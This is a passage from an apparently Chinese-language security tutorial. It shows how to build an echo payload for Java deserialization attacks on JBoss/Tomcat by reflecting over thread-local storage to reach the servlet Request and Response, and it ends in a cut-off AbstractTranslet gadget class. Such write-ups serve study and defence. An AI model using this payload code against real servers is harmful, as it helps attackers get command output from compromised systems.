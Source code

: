 ## 回显构造

需要用一下idea中的远程调试

首先先看一下当前线程：Thread.currentThread()

![image-20231212161801019](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231212161801019.png)

遍历线程组可以获取到：org.apache.catalina.connector.Request，然后通过getResponse()方法得到Response，最后getWriter()方法回显，代码如下：

```java
Object resp=Thread.currentThread().threadLocals.table[27].value;	
Object writer=resp.getClass().getDeclaredMethod("getOutputStream").invoke(resp);
writer.getClass().getDeclaredMethod("write",byte[].class).invoke(writer,"hello".getBytes());
writer.getClass().getDeclaredMethod("flush").invoke(writer);
```

但是数组的顺序是不确定的，所以需要用一种方式来代替：

数组的下标，通过org.apache.catalina.connector.Request 来代替

接下来的思路就是Entry[]table中某个值如何获取，table属于ThreadLocalMap的字段值， 可以通过如下方式获取

```java
Class threadLocalMapClass=Class.forName("java.lang.ThreadLocal$ThreadLocalMap");
Field tableFiled=threadLocalMapClass.getDeclaredField("table");
tableFiled.setAccessible(true);
```

这里获得的table是个数组，其具体值要通过get获得。value则属于Entry类的属性，同样它的值也需要反射get方法获得。

```java
Class entryClass=Class.forName("java.lang.ThreadLocal$ThreadLocalMap$Entry");
Field entryValueField=entryClass.getDeclaredField("value");
entryValueField.setAccessible(true);
```

```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;

import java.io.InputStream;
import java.lang.reflect.Field;
import java.util.Scanner;

public class JbossEcho extends AbstractTranslet{
    static {
        try {
            Thread thread = Thread.currentThread();
            Field threadLocals = Thread.class.getDeclaredField("threadLocals");
            threadLocals.setAccessible(true);
            Object threadLocalMap = threadLocals.get(thread);

            Class threadLocalMapClazz = Class.forName("java.lang.ThreadLocal$ThreadLocalMap");
            Field tableField = threadLocalMapClazz.getDeclaredField("table");
            tableField.setAccessible(true);
            Object[] Entries = (Object[]) tableField.get(threadLocalMap);

            Class entryClass = Class.forName("java.lang.ThreadLocal$ThreadLocalMap$Entry");
            Field entryValueField = entryClass.getDeclaredField("value");
            entryValueField.setAccessible(true);

            for (Object entry : Entries) {
                if (entry != null) {
                    try {
                        Object httpConnection = entryValueField.get(entry);
                        if (httpConnection != null) {
                            if (httpConnection.getClass().getName().equals("org.apache.catalina.connector.Request")) {
```